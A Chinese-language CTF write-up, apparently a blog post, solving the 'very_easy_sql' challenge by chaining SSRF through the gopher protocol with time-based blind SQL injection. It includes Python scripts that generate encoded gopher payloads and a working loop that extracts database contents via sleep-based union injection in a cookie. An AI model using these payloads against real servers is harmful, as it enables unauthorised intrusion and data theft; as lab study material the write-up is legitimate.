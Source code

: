 ### 文章目录

- [very_easy_sql](https://www.cnblogs.com/0kai0/p/17018175.html#very_easy_sql_2)
- - [gopher协议和ssrf联合使用](https://www.cnblogs.com/0kai0/p/17018175.html#gopherssrf_10)
    - [构造payload](https://www.cnblogs.com/0kai0/p/17018175.html#payload_52)
    - - [SQL注入](https://www.cnblogs.com/0kai0/p/17018175.html#SQL_84)

# very_easy_sql

主页没有回显，先查看源代码看到注释有**use.php**。且有一句  
**you are not an inner user, so we can not let you have identify~**.意思是需要以本地用户访问。这里又没有rce、越权、文件包含等。那么很有可能有ssrf。

- 构造本地访问:`use.php/url=127.0.0.1/use.php`  
    看到有两个输入框，确定了有ssrf

## gopher协议和ssrf联合使用

> gopher协议是一种信息查找系统，他将Internet上的文件组织成某种索引，方便用户从Internet的一处带到另一处。在WWW出现之前，Gopher是Internet上最主要的信息检索工具，Gopher站点也是最主要的站点，使用tcp70端口。利用此协议可以攻击内网的 Redis、Mysql、FastCGI、Ftp等等，也可以发送 GET、POST 请求。这拓宽了 SSRF 的攻击面

利用:  
攻击内网的 Redis、Mysql、FastCGI、Ftp等等，也可以发送 GET、POST 请求  
发送GET请求和POST请求  
我们现在最多看到使用这个协议的时候都是在去ssrf打redis shell、读mysql数据的时候

- **gopher协议的格式：gopher://IP:port/_TCP/IP数据流**
    
- GET请求:  
    构造HTTP数据包,URL编码、替换回车换行为%0d%0a，HTTP包最后加%0d%0a代表消息结束
    
- POST请求  
    POST与GET传参的区别：它有4个参数为必要参数  
    需要传递Content-Type,Content-Length,host,post的参数  
    Content-Length和POST的参数长度必须一致
    

python脚本生成payload（POST和GET请求都适用）

```py
import urllib.parse

payload = """
POST /flag.php HTTP/1.1
Host: 127.0.0.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 36

key=a68a3b03e80ce7fef96007dfa01dc077
"""
tmp = urllib.parse.quote(payload) #对payload中的特殊字符进行编码
new = tmp.replace('%0A','%0D%0A') #CRLF(换行)漏洞
result = 'gopher://127.0.0.1:80/'+'_'+new
result = urllib.parse.quote(result)# 对新增的部分继续编码
print(result)
```

- %0d%0a代表空格双重url编码，gopher会将第一个字符吞噬，所以加个下划线
- 回车换行要变为%0d%0a,但如果直接用工具转，可能只会有%0a
- 在HTTP包的最后要加%0d%0a，代表消息结束（具体可研究HTTP包结束）

## 构造payload

brupsuit拿捏一个数据包代入python脚本

```py
import urllib.parse

host = "127.0.0.1:80"
content = "uname=admin&passwd=admin"
content_length = len(content)

payload =\
"""POST /index.php HTTP/1.1
Host: {}
User-Agent: curl/7.43.0
Accept: */*
Content-Type: application/x-www-form-urlencoded
Content-Length: {}

{}
""".format(host,content_length,content)

tmp = urllib.parse.quote(payload) #对payload中的特殊字符进行编码
new = tmp.replace('%0A','%0D%0A') #CRLF(换行)漏洞
result = 'gopher://127.0.0.1:80/'+'_'+new
result = urllib.parse.quote(result)# 对新增的部分继续编码
print(result)
```

![请添加图片描述](https://img-blog.csdnimg.cn/faae1b92bcac41e6b02fce762c5a1060.png)  
直接开炮  
pyload:`http://61.147.171.105:53922/use.php?url=gopher%3A//127.0.0.1%3A80/_POST%2520/index.php%2520HTTP/1.1%250D%250AHost%253A%2520127.0.0.1%253A80%250D%250AUser-Agent%253A%2520curl/7.43.0%250D%250AAccept%253A%2520%252A/%252A%250D%250AContent-Type%253A%2520application/x-www-form-urlencoded%250D%250AContent-Length%253A%252024%250D%250A%250D%250Auname%253Dadmin%2526passwd%253Dadmin%250D%250A`

### SQL注入

响应包有如下数据  
![在这里插入图片描述](https://img-blog.csdnimg.cn/a9fb18b64e7b4637916fe30dd35ac115.png)  
返回数据包有set-cookie,但是这种ctf要什么cookie呢，看别人wp，cookie是注入点。  
**bp抓包扔进sqlmap×**，因为是gopher协议带进去注入，所以**再用一次ssrf脚本√**.带上cookie

```py
import urllib.parse
import requests
import time
import base64

host = "127.0.0.1:80"
content = "uname=admin&passwd=admin"
content_length = len(content)

payload =\
"""GET /index.php HTTP/1.1
Host: localhost:80
Connection: close
Content-Type: application/x-www-form-urlencoded
Cookie: this_is_your_cookie"""

tmp = urllib.parse.quote(payload) #对payload中的特殊字符进行编码
new = tmp.replace('%0A','%0D%0A') #CRLF(换行)漏洞
result = 'gopher://127.0.0.1:80/'+'_'+new+"="
result = urllib.parse.quote(result)# 对新增的部分继续编码
print(result)

url="http://61.147.171.105:60622/use.php?url="
flag=""
for pos in range(1,50):
    for i in range(33,127):
        #poc="') union select 1,2,if(1=1,sleep(5),1) # "

        #security
        #poc="') union select 1,2,if(ascii( substr((database()),"+str(pos)+",1) )="+str(i)+",sleep(2),1) # "

        #flag
        #poc="') union select 1,2,if(ascii( substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),"+str(pos)+",1) )="+str(i)+",sleep(2),1) # "
        
        poc="') union select 1,2,if(ascii( substr((select * from flag),"+str(pos)+",1) )="+str(i)+",sleep(2),1) # "
        
        bs = str(base64.b64encode(poc.encode("utf-8")), "utf-8")
        final_poc=result+bs+"%3B%250d%250a"
        t1=time.time()
        res=requests.get(url+final_poc)
        t2=time.time()
        if(t2-t1>2):
            flag+=chr(i)
            print(flag)
            break
print(flag)

```

![1](https://img-blog.csdnimg.cn/a4c1feb6ec494c25b63611c69c5a6f80.png)

捏吗的，不知道为啥第一位是错的。在写脚本时要注意=别被二次编码了。一道题，难得扣